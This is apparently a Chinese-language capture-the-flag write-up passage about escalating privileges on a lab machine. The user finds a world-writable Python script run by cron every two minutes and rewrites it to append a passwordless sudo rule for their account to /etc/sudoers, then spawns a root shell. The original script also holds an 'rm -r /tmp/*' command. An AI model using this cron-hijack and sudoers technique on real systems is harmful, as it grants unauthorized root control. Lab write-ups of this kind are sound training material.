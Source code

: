 被拒绝

找找日志

```bash
overflow@troll:/$ find / -name cronlog 2>/dev/null
/var/log/cronlog
overflow@troll:/$ cat /var/log/cronlog
*/2 * * * * cleaner.py
```

找`cleaner.py`

```bash
overflow@troll:/$ find / -name cleaner.py 2>/dev/null
/lib/log/cleaner.py
```

查看`cleaner.py`

```bash
overflow@troll:/$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /tmp/* ')
except:
        sys.exit()
overflow@troll:/$ 

```

发现使用了`os.system`，可以执行系统的命令，并且每隔两分钟都会删除`/tmp`目录

修改`cleaner.py`

```bash
overflow@troll:/$ cat /lib/log/cleaner.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('echo "overflow ALL=(ALL)NOPASSWD: ALL" >> /etc/sudoers')
except:
        sys.exit()

```

赋予`overflow`用户所有权限，不需要密码

`sudo -l`过一会就可以了

提权：`sudo /bin/bash`

